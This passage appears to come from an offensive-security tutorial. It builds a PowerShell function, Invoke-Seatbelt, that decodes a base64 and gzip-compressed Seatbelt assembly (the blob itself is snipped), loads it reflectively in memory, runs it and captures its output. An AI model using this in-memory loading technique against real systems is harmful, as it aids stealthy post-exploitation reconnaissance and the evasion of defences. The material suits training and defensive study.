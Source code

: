 ![image](CxgrRSLnIgn8.png)

With our compressed and encoded `Seatbelt` assembly prepared, we can begin writing the `PowerShell` script which will load and execute it. First off, we can prepare a function called `Invoke-Seatbelt` which takes one string argument (which we will later pass to `Seatbelt`) and contains the compresed and encoded `Seatbelt` assembly we prepared earlier.

```powershell
function Invoke-Seatbelt {
    [CmdletBinding()]
    Param (
        [String]
        $args = " "
    )

    # Seatbelt.exe -> Gzip -> Base64
    $gzipB64 = "<SNIP>";
}

```

Before we are able to load the assembly, we need to convert it back into its original bytes, so we can add the following lines to decode and then decompress the `$gzipB64` variable.

```powershell
<SNIP>
# Base64 decode
$gzipBytes = [Convert]::FromBase64String($gzipB64);

# Gzip decompress
$gzipMemoryStream = New-Object IO.MemoryStream(, $gzipBytes);
$gzipStream = New-Object System.IO.Compression.GzipStream($gzipMemoryStream, [IO.Compression.CompressionMode]::Decompress);
$seatbeltMemoryStream = New-Object System.IO.MemoryStream;
$gzipStream.CopyTo($seatbeltMemoryStream);
<SNIP>

```

With the assembly bytes back in their original form, we can add the following lines to load the assembly reflectively, [redirect STDOUT to the console](https://stackoverflow.com/a/33128025) and then invoke the `Main` method with the arguments passed to the `Invoke-Seatbelt` function.

```powershell
<SNIP>
# Load assembly reflectively
$seatbeltArray = $seatbeltMemoryStream.ToArray();
$seatbelt = [System.Reflection.Assembly]::Load($seatbeltArray);

# Redirect assembly STDOUT to console
$OldConsoleOut = [Console]::Out;
$StringWriter = New-Object IO.StringWriter;
[Console]::SetOut($StringWriter);

# Call main method
[Seatbelt.Program]::Main($args.Split(" "));

# Reset STDOUT
[Console]::SetOut($OldConsoleOut);
$Results = $StringWriter.ToString();
$Results;
<SNIP>

```
